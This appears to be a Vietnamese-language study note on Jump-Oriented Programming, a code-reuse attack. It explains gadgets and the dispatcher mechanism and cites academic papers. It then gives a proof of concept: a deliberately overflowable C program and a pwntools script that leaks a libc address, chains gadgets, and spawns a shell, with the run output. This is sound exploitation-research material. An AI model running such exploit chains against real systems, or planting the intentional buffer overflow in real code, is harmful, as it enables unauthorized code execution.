 # JOP - Jump Oriented Programming

-	đây là kĩ thuật control flow bằng cách sử dụng JMP instruction
-	JOP gadgets thường ở dạng "instruction phù hợp exploit + JMP instruction".Ex
	-	lưu 0 vào arg đầu tiên ở môi trường x64:  `mov rsi,	0; jmp [r9]`
	-	lưu giá trị của thanh ghi rsp đang chứa vào arg thứ 2 trong môi trường x64: `mov rsi, [rsp]; jmp [r9]`
-	JOP có yêu cầu là cần phải tách biệt cả về gadget lẫn cấu trúc để có thể execute nhiều gadgets
	-	Ex về JOP
		-	giá trị địa chỉ của JOP gadgets được lưu ở 0x1000~0x1018
		-	ở thanh ghi rdx, giá trị `địa chỉ mà JOP gadgets chứa - 0x8` (0x1000) được lưu tại đây.
		-	địa chỉ của dispatcher gadgets bị ghi đè bởi bof
		-	dispatcher gadget hoạt động như sau:
			-	8 được + vào giá trị (0x1000) lưu ở rdx thông qua `add rdx, 8` (rdx:0x1008) 
			-	hàm `jmp [rdx]` sẽ nhảy vào địa chỉ (0xffff0010) được trỏ bởi rdx (0x1008)
		-	JOP gadget 0xffff0010 hoạt động như sau:
			-	`mov rax, [rax]` lấy giá trị trỏ bởi rax gán vào rax
			-	nhảy đến dispatcher gadgets bằng `jmp rsi`



![](https://i.imgur.com/h2upXRy.png)

**Jump-Oriented Programming: A New Class of Code-Reuse Attack**

>-	https://www.comp.nus.edu.sg/~liangzk/papers/asiaccs11.pdf
>-	https://repository.lib.ncsu.edu/bitstream/handle/1840.4/4135/TR-2010-8.pdf

# Proof of Concept
source:
```c
//gcc -fno-stack-protector -o jop jop.c -ldl -no-pie
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
  
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
  
void main(){
    seteuid(getuid());
    write(1,"Hello ROP\n",10);
    vuln();
}
```

cách thức JOP:

-	lưu địa chỉ của system() vào rax
-	lưu 1st arg (địa chỉ của '/bin/sh\x00') vào rdi dùng JOP và gọi system thông qua `jmp rax`

source py:
```python
from pwn import *

elf = ELF('./jop')
r = process(elf.path)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

r.recvuntil('Printf() address : ')
leak = int(r.recvuntil('\n'),16)
libc.address = leak - libc.sym['printf'] 
#	Note: các gadget đều được tìm = rp++
pop_rax =libc.address + 0x0003a737
pop_rdi_jmp_rax = libc.address + 0x00104112
binsh = next(libc.search('/bin/sh'))

payload =	'A'*0x48
payload +=	p64(pop_rax)
payload +=	p64(libc.sym['system'])
payload +=	p64(pop_rdi_jmp_rax)
payload +=	p64(binsh)

r.sendline(payload)
r.interactive()
```
```nasm
$ python script.py [*] '/home/xfeebe/research/JOP/jop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/xfeebe/research/JOP/jop': pid 12700
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
$ id
uid=1000(xfeebe) gid=1000(xfeebe) groups=1000(xfeebe),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ 
```
# References
>-	http://www.cs.binghamton.edu/~mkayaalp/jop.h`tml
>-	https://www.comp.nus.edu.sg/~liangzk/papers/asiaccs11.p`df
>-	https://repository.lib.ncsu.edu/bitstream/handle/1840.4/4135/TR-2010-8.p`df
>-	https://www.abigale.xin/J`OP/



